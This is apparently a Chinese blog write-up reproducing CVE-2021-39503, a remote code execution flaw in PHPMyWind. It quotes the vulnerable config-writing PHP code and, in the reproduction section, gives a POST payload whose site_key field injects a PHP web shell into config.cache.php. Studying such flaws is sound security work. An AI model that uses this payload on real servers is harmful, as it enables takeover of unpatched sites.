

# 概述
CVE-2021-39503 是 PHPMyWind 平台的远程代码执行（Remote Code Execution）漏洞。PHPMyWind 这个平台基本上可以说算是凉了，上一次维护都已经几年之前了，近期一些 Issue 中间也提到了一些其他的漏洞，但是开发人员也都没有进行维护。
PHPMyWind 是一个网站管理工具，从观感上面来说应该类似于宝塔之类的建站工具。
在过去几年中，这个平台就出现了大量的漏洞，如 CVE-2020-19964（CSRF），CVE-2019-8435（XSS），CVE-2018-17131（RCE）等。
这个漏洞是用户登陆之后，在新建网站页面输入网站信息时，程序并没有对用户的输入进行有效过滤，使得用户能够注入脚本实现任意代码执行。
# 漏洞描述
PHPMyWind 的代码结构是这样的：
PHPMyWind
-include
- config.cache.php // 恶意脚本注入的位置
- ...
- admin
- site_save.php // 存在RCE注入点的位置
主要的注入点在 admin/site_save.php 下，我们阅读其中 “添加新站点” 部分的代码：
// 添加新站点 | |
if($action == 'add') | |
{ | |
$r = $dosql->GetOne("SELECT `id` FROM `$tbname` WHERE `sitekey`='$site_key'"); | |
if(isset($r['id'])) | |
{ | |
ShowMsg('该站点标识已存在！', '-1'); | |
exit(); | |
} | |
$sql = "INSERT INTO `$tbname` (`sitename`, `sitekey`, `sitelang`) VALUES ('$site_name', '$site_key', '$site_lang')"; | |
if($dosql->ExecNoneQuery($sql)) | |
{ | |
$newsiteid = $dosql->GetLastID(); | |
$data_str = "INSERT INTO `#@__webconfig` VALUES('$newsiteid','cfg_webname_$site_key','网站名称','0','string','$webname','1'); | |
INSERT INTO `#@__webconfig` VALUES('$newsiteid','cfg_weburl_$site_key','网站地址','0','string','$weburl','2'); | |
... | |
... | |
INSERT INTO `#@__webconfig` VALUES('$newsiteid','cfg_switchshow_$site_key','关闭说明','0','bstring','对不起，网站维护，请稍后登录。<br />网站维护期间对您造成的不便，请谅解！','13');"; | |
$querys = explode(';', $data_str); | |
foreach($querys as $sql) | |
{ | |
if(trim($sql) == '') continue; | |
$dosql->ExecNoneQuery($sql); | |
} | |
WriteConfig(); | |
echo '<script type="text/javascript">window.top.location.reload();</script>'; | |
exit(); | |
} | |
} |
这一部分代码将用户输入的数据暂时存入数据库中，我们可以看到在 echo 之前这里调用了 WriteConfig() 函数，我们下面进入该函数进行分析：
//更新配置函数
function WriteConfig()
{
global $dosql;
$str = '<?php if(!defined(\'IN_PHPMYWIND\')) exit(\'Request Error!\');'."\r\n\r\n";
$dosql->Execute("SELECT `varname`,`vartype`,`varvalue`,`vargroup` FROM `#@__webconfig` ORDER BY `orderid` ASC");
while($row = $dosql->GetArray())
{
//统计代码转义
if($row['varname'] == 'cfg_countcode')
{
$row['varvalue'] = stripslashes($row['varvalue']);
}
if($row['vartype'] == 'number')
{
if($row['varvalue'] == '')
{
$row['varvalue'] = 0;
}
$str .= "\${$row['varname']} = ".$row['varvalue'].";\r\n";
}
else
{
$str .= "\${$row['varname']} = '".str_replace("'",'',$row['varvalue'])."';\r\n";
}
}
$str .= '?>';
Writef(PHPMYWIND_INC.'/config.cache.php',$str);
}
?>
可以看到，其中涉及到了删除用户输入字符串中的反斜杠，同时也过滤了单引号，但是这里并没有对用户输入的 <,>, ?, =,... 等特殊字符进行过滤，也就是说我们可以构造特定的代码实现攻击。
而我们观察上面的代码可以看到，最后 Writef 函数将 str 写入了 config.cache.php 文件中。也就是说这整个 WriteConfig 函数实际上就是构造了一段 PHP 脚本，而其中我们可以自己控制一些部分去进行构造。
我们来看一下 config.cache.php 的内容：
<?php if(!defined('IN_PHPMYWIND')) exit('Request Error!');
$cfg_webname = '我的网站';
$cfg_webname_MYSITEKEY = 'MY_SITE_KEY';
$cfg_weburl = 'http://phpmywind.net';
$cfg_webpath = '';
$cfg_author = '';
$cfg_generator = 'PHPMyWind CMS';
...
实际上，上面的 $cfg_webname_MYSITEKEY 是可以自行修改的，这里取决于用户输入的数据，我们可以在这里构造攻击脚本。
# 漏洞复现
# 环境
- Ubuntu 18.04 LTS
- Apache2 + PHP 7.2 + MySQL 5.7
- PHPMyWind 5.6
# 复现
我们启动环境，连接服务器并登陆，能够正常连接上：
接下来，我们发送一个正常的请求并对数据包进行截获：
BurpSuite 截获的数据包如下：
我们修改 POST 的 site_key 参数，构造这样的 payload：
site_name=Web%E5%AE%89%E5%85%A8-test&
site_key=symlXDSEC?><?=`$_GET[0]`?><?&
site_lang=en_US&webname=test_CVE&
weburl=http%3A%2F%2F************%2FtestCVE&
webpath=testCVE&
webswitch=Y&
action=add

接下来，可以通过 POST 请求向其中传入指令进行远程执行：
至此，复现完成。
# 总结
做这个漏洞复现的主要目的在于帮人写掉一次 Web 安全大作业，于是随手搜了一个 CVE，抱着根本看不懂的决心去复现的（x），结果发现这个漏洞是真的极其弱智……
没意思，下次不整了。